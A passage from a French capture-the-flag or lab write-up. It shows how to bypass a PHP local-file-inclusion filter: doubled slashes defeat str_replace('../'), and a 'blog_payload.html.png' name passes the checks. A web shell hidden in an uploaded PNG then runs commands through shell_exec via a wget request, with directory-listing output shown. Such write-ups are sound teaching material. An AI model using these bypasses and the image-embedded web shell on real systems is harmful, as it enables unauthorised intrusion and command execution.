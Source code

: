 Et là, c'est le drame, nous avons le message d'erreur : "Invalid Format"

Pourquoi ? 

Tout simplement qu'il y'avait un peu de `filtrage` ! 

Le premier consiste à supprimer l'appel relatif : 

```php
$file = str_replace('../', '', $_GET['article']);
```

Le second qui consiste quand à lui à vérifier la présence de "_blog" dans le nom du fichier inclut. 

Enfin, le dernier s'assurait de la présence de l'extension ".html" :

```php
if (strpos($file, 'blog_') !== false && strpos($file, 'html') !== false) {
			include(dirname(__FILE__).'/blog/'.$file);
		}
```

Pour le premier, nous allons modifier le début du chemin "./" par "..//" ce qui aura pour effet d'être transformé par la fonction str_replace en "./" ce qui nous permettra d'effectuer l'inclusion comme voulu.

Pour le second, et le troisième, nous allons modifier le nom de fichier comme ceci : blog_payload.html.png

Notre LFI devrait donc être : `..//uploads/blog_payload.html.png`

Transférons notre fichier et tentons l'inclusion : http://172.30.0.2/blog.php?article=..//uploads/blog_payload.html.png 

Ça passe ! 

Nous pouvons donc exploiter le shell contenu dans notre PNG : 

```bash
wget "http://172.30.0.2/blog.php?article=..//uploads/blog_payload.html.png&0=shell_exec"  --post-data "1=ls"  
```

```
�PNG

   
IHDR           ��   	pHYs  �  ��+   `IDATH�c\52e8b95db9d298bd03741e99abe57c8c1ff1fbd80bd94c366a7574baac7b1180
admin
blog
blog.html
blog.php
css
errors
icon-fonts
img
index.html
js
X����s^7�����~_�}�'���ɿ_�|�00cٹg��=�2��Q0
F�(�`��Q0
�
  ��x
    IEND�B`�<center><a href="https://github.com/Michael-SharkyMaster/website">This website is also host on Github</a></center>
```
